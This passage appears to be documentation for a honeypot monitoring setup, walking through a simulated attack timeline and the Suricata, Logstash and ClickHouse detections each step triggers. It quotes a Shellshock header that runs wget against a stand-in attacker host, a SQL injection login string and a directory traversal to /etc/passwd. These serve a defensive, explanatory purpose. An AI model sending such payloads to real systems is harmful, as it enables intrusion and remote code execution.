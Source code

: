 ```
T+0s: Exploit Delivery
──────────────────────
  POST /cgi-bin/test.sh HTTP/1.1
  User-Agent: () { :; }; /bin/bash -c 'wget http://attacker.com/backdoor.sh'
  Referer: () { :; }; echo vulnerable

  → Detection: Dionaea HTTP honeypot receives request
  → Suricata: SID 2000008 (Shellshock Exploit)
  → Logstash: Detects Shellshock pattern in User-Agent
  → honeypot_events: is_exploit='1', exploit_type='shellshock'
  → MITRE: T1190 (Exploit Public-Facing Application)

T+1s: Additional Probes
───────────────────────
  Attacker tries multiple vectors:
    - Cookie header with payload
    - X-Forwarded-For with payload
    - Custom header injection

  → All logged to honeypot_events
  → Suricata generates 3 additional alerts
  → http_requests table: 4 entries with malicious User-Agent

T+5s: SQL Injection Attempt
───────────────────────────
  GET /login?user=admin'+OR+'1'='1 HTTP/1.1

  → Detection: Suricata SID 1000029 (SQL Injection)
  → Logstash: Detects SQL pattern in URL
  → honeypot_events: is_exploit='1', exploit_type='sqli'
  → MITRE: T1190 (Exploit Public-Facing Application)

T+10s: Directory Traversal
──────────────────────────
  GET /../../../etc/passwd HTTP/1.1

  → Detection: Suricata SID 1000028 (Directory Traversal)
  → Dionaea logs attempt
  → honeypot_events: is_exploit='1', exploit_type='traversal'

T+15s: Attacker Disconnects
───────────────────────────
  No further activity (exploit didn't work in honeypot)
  → Session ends
```

### Data Generated

**ClickHouse Tables**:
- `honeypot_events`: 6 HTTP requests, 4 marked as exploits
- `http_requests`: 6 entries with suspicious patterns
- `ids_alerts`: 5 alerts (Shellshock, SQLi, Traversal)
